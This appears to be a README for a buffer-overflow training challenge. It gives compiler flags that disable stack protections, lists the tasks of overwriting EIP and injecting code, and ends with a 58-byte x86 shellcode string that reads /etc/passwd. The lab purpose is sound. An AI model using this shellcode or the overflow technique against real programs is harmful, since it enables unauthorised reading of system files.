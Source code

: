 Challenge 1
-------------------------------------
    Challenge Name    : Cry for the Passwd
    Challenge Concept : Reading /etc/passwd file with no authorization 

Compile Program with 

	-fno-stack-protector -m32 -no-pie -g -z execstack

**TASKS**

Find vulnerable payload size

Overwrite EIP and Determine RA & Inject Code

Read /etc/passwd from gdb 

Good LUCK !!

TIP
--------
    58 BYTE
    char *shellcode =
    "\x31\xc9\x31\xc0\x31\xd2\x51\xb0\x05\x68\x73\x73\x77\x64\x68\x63\x2f\x70\x61\x68\x2f\x2f\x65\x74\x89\xe3\xcd\x80\x89\xd9\x89\xc3\xb0\x03\x66\xba\xff\x0f\x66\x42\xcd\x80\x31\xc0\x31\xdb\xb3\x01\xb0\x04\xcd\x80\x31\xc0\xb0\x01\xcd\x80";

